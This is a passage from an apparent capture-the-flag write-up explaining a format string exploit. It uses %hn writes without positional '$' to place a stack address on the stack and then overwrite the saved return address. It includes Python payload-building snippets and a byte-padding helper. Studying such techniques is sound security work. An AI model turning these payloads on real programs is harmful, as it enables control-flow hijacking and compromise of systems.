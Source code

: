 Then, we would have `0x7fff955c3f28` (`rsp`), being pointed to by an address on the stack at higher memory position, which is also an `printf` argument. So, then we would be able to modify `0x558ad449b4b1` (`rip`) via `0x7fff955c3f28` (`rsp`) which is now stored on the stack.


To achieve the above, we just need to use `%hn` to overwrite the first 4 bytes (in little endian) of `0x7fff955c4048` to `\x28\x3f` i.e. the first two address btyes of `0x7fff955c3f28` (`rsp`) presented in little endian, which changes at different program runs due to PIE and ASLR. 


### Format string payload in depth
Therefore, this particular part of the payload looks like this:
```py
# exact the last (first) two bytes
bytes_to_write = rip_pos & 0xffff 

# write it with no $
payload = f"%{bytes_to_write-4}c%c%c%c%c%hn".encode()
```

Here we cannot write with a `$` because we later need to change the `rip` via the `rsp` that we modified to be stored on stack within the same `printf`. And if `$` is used, an internal buffer will be used to store the original positional arguments i.e. the original stack address `—▸ 0x7fff955c61c5 ◂— './attachment_patched'` before overwritten to `—▸ 0x7fff955c3f28 —▸ 0x558ad449b4b1 (main+166)` (`rsp`). Then in that case, our second `%n` wouldn't overwrite `0x7fff955c3f28` but overwriting `0x7fff955c61c5` that is stored in the internal buffer if `$` was used to specify the positional argument.

After we have `rsp` placed on the stack without using `$` for the overwrite, we can then modify `rip` via it. Here is how I do it:
```py
bytes_to_write = rip_pos & 0xffff
payload = f"%{bytes_to_write-4}c%c%c%c%c%hn".encode()
written = bytes_to_write
bytes_to_write = padding(written, 0x10, 0x100) # max being 0x100 for hhn
pos = int(0x118 / 8 + 6)
payload += f"%{bytes_to_write}c%{pos}$hhn".encode()
```

Here `written` records the bytes that has already been written with `%c` in preivous part of the payload, and `padding(written, 0x10, 0x100)` is a function that wraps around the bytes to write if `written` has already exceeded the number of characters that the desired byte to write requires.
#### padding
```py
def padding(written, bytes_to_write, maximum):
	if written % maximum < bytes_to_write:
		return bytes_to_write - (written % maximum)
	else:
		return maximum - (written % maximum) + bytes_to_write
```
So, this:
```py
bytes_to_write = padding(written, 0x10, 0x100) # max being 0x100 for hhn
pos = int(0x118 / 8 + 6)
payload += f"%{bytes_to_write}c%{pos}$hhn".encode()
```
